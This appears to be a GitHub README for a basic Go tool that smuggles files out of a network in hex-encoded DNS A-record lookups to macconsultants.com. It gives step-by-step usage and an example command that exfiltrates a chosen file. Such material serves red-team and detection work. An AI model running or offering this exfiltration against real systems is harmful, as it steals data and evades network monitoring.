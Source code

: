 This is a very basic file exfiltration tool that uses DNS A records to exfiltrate files.

How it Works:
1. build the server and start it (sudo ./<binname>)
2. The dns server will then listen for incoming DNS connections
3. The dns server will resolve any request it gets to 10.10.10.10
4. Change the dns server IP in the client code from 127.0.0.1 to whatever IP you are using and then build and run the client and feed it a single parameter which is the path to the file you want to exfil. Example:

./go-dnsclient ~/Desktop/importantfile.txt

5. the client will then read the contents of the file, hex encode it, and send it in 10 character chunks as A record requests. The format of each request is:
[10 hex encoded characters].macconsultants.com
6. Once done the server will take all of the hex encoded data, combine, and unhexlify it to a file as ASCII in the same directory. The output file is called outfile.
7. The server will not indicate when done but the client does. Once the client says it is done, you can kill the server and view the contents of outfile.
8. You will need to rename the outfile if you want to send multiple files, since the server will overwrite it


